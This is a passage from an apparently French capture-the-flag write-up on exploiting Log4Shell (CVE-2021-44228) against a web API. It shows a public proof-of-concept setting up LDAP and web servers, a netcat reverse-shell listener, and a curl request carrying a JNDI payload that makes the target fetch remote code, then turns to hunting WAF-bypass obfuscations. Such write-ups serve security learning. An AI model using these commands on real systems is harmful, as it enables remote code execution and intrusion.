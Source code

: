 - Terminal 1 :
```Bash
python3 poc.py --userip XX.XX.XX.XX --webport 24935 --lport 2222

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://XX.XX.XX.XX:1389/a}
[+] Starting Webserver on port 24935 http://0.0.0.0:24935

Listening on 0.0.0.0:1389
```

- Terminal 2 :
```Bash
nc -nlvp 2222
```

![Exploit](images/exploit.png)

On peut désormais essayer d'envoyer le payload que nous fournit gracieusement le script :

```Bash
curl -X POST "http://213.32.7.237:24935/api/check" -d "nom=Zbeub&prenom=$\{jndi:ldap://XX.XX.XX.XX:1389/a\}"

Attack detected! Try harder!
```

On est sur la bonne piste ! Il semblerait que quelqu'un ai essayé de protéger la vulnérabilité en detectant la présence d'un payload Log4J dans les requêtes de l'API !

On va donc essayer de contourner cette détection en faisant de l'obfuscation.

Pour ce faire je me suis servi de toutes les techniques de contournement renseignés par Puliczek sur son git : [LOG4J Java exploit - WAF and patches bypass tricks](https://github.com/Puliczek/CVE-2021-44228-PoC-log4j-bypass-words).

Après avoir essayé toutes les possibilités et constaté qu'aucune ne fonctionne je suis allé chercher plus loin.
Voila ce que j'ai trouvé : [Found a bypass working for a few WAF](https://twitter.com/BountyOverflow/status/1470001858873802754) - @BountyOverflow
